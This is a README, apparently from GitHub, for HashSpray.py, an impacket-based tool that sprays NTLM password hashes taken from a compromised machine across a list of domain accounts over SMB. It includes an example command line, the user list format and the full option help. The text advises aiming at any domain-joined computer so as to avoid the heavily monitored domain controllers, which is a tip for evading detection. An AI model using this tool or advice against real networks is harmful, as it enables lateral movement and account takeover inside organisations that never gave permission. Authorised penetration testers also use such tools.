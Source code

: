 # HashSpray.py

Got hashes from a compromised machine and want to test if the password hash have been reused over multiple accounts? Get a userlist and spray with this tool with -hashes parameter and with the -target-ip pointing at ANY domain joined computer. You dont need to spray the heavy monitored domain controllers, authenticated users will have access to the IPC$ share by default.


This was built using the impacket library

```
python hashspray.py -userlist users -hashes :1uca3d1bd1a33geb1b15bab12196r5aa -target-ip 192.168.5.1  -threads 10
```
Userlist exmaple

```
domain\user
user
```

```
authentication:
  -userlist userlist    List of users to spray, format is [[domain/]username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. This may be any be
                        any domain joined computer or a domain controller
  -port [destination port]
                        Destination port to connect to SMB Server

threads:
  -threads threads      Number of threads to use, default is 1
```
